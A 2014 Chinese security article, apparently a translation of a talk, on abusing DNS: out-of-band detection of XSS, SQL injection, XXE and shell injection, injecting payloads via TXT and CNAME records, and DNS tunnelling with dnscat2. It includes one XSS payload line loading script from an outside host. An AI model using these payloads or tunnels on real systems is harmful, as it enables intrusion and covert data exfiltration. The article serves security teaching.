# DNS: More than just names

2014/10/07 12:32 | [五道口杀气](http://drops.wooyun.org/author/五道口杀气 "由 五道口杀气 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

from：[DNS: More than just names](https://docs.google.com/presentation/d/1HfXVJyXElzBshZ9SYNjBwJf_4MBaho6UcATTFwApfXw/preview?pli=1&sle=true#slide=id.p)

## 0x00 前言

* * *

此文章讲得所有内容都是用的 DNS 本身设计的功能，但是没有想到可被利用的地方。

讨论的范围仅是利用 DNS 本身攻击。

所以不会讨论下面的 DNS 攻击，如：

> DNS 污染 DNS 错误配置（域传送等） DNSSec

等等

## 0x01 DNS 是如何工作的

* * *



## 0x02 协议

* * *

**DNS 类型**

有很多不同的记录类型，但是我们这次只关注 A，AAAA，CNAME，MX 和 TXT 记录。

A :: 获取一个 IP 地址



AAAA :: 获取一个 IPv6 地址



MX :: 邮箱服务器



也有,

CNAME - 别名 TXT - 文本数据

别忘了： NB/NBSTAT - NetBIOS

数据包结构：




如果 name 是以一对“1”bit 开头的，剩下的 14bit 说明实际域名所在位置相对 DNS 起始表示字段的偏移。

例如：如果 name 是“C0 0F”则表示 “使用出现偏移量为 0x0F 的名字。

详细解释可以参考：http://blog.csdn.net/twelvelee/article/details/6714115

当然，这可能指向自身，造成 DNS 客户机/服务器 无限循环。 :)

**反向 DNS**

工作原理相同，但是有 PTR 的记录类型（特殊方法格式化 ip 地址）。



最终你可以甚至为任何你想要的。

这让我疑惑，什么是可信的？



**侦查与 DNS**

当遇到只能走 dns 的数据，其他的都被防火墙挡住的时候：

我拥有 skullseclabs.org 域名，所有的请求都通过*.skullseclabs.org 转到我的 DNS 服务器。

**XSS**

当你插入的 js 代码在浏览者的浏览器中执行的时候，你如何知道呢？

如果 user-agent 内容会被插入执行，

```
 
```

然后查看我的 DNS 服务器 ：


证明 html 代码被执行。

为什么我们关心呢？

因为，数据包看起来完全是正常的。 我们没有直接连接服务器，因此防火墙是不会知道的。



最后我们可以知道是或否有服务器想要连接，不需要成功连接，甚至不需要服务器尝试连接。我们还可以做什么呢？

想要知道谁给你发邮件？

非常简单用 admin@abc123.skullseclabs.org


结论？可能什么都没有，或许能找到一个反垃圾邮件。

**SQL 注射**

两个可以执行 DNS 查询的 SQL 语句


**XXE 漏洞**

Google 曾经给在他服务器上找到 XXE 漏洞的人支付了 1W 刀。

XXE 能够让你读取系统的本地文件：


同时也可以请求远程服务器


我们就有了一种探测 XXE 漏洞的一种方式：



即使存在防火墙，或者服务器限制严格一些文件不能读取，你仍然能够探测到 XXE 漏洞。

通过 DNS 直接获取数据不太可能，但是用来检测是否有漏洞是个很有效的办法。

**shell 注入**

使用这种方法，很容易检测到 shell 的注入，适用与不同的平台上。

插入一个 DNS 查询：



（适用于 Windows，Linux，BSD）

有人想起来这个周的 ShellShock 吗？


**Attack over DNS**

安全性就是边界。

受信任的数据在一边，不受信任的数据在了另外一边。

当你做了 DNS 查询，你又考虑到结果不可信吗？

看看下面代码有安全问题吗？



把 TXT 记录改成如下，最终导致 SQL 注入：



下面有一篇详细的 DNS 注入的 writeup

https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns

下面是一个有效的 CNAME，MX，TXT，PTR 等记录（双引号和空格不允许）

```
<script/src='http://javaop.com/test-js.js'></script> 
```

显然 TXT 记录可以做更多的事情。

在 2010 年的时候我测试三个访问最多的域名查询系统的时候全部都有这个漏洞

现在其中的一个仍然有此问题。

**DNS 隧道**



如何传送数据呢？



来回的通信：



实际的过程：



作者自己还解决的一些压缩等问题，最后给出自己写的工具地址：

[`github.com/iagox86/dnscat2`](https://github.com/iagox86/dnscat2)

版权声明：未经授权禁止转载 [五道口杀气](http://drops.wooyun.org/author/五道口杀气 "由 五道口杀气 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [邮箱伪造详解](http://drops.wooyun.org/papers/534)
*   [通过 dns 进行文件下载](http://drops.wooyun.org/tools/1344)
*   [Pcshare 远控源码偏重分析（一）](http://drops.wooyun.org/tips/4412)
*   [Google DNS 劫持背后的技术分析](http://drops.wooyun.org/papers/1207)
*   [撞库扫号防范](http://drops.wooyun.org/tips/2830)
*   [BurpSuite 扩展开发[1]-API 与 HelloWold](http://drops.wooyun.org/papers/3962)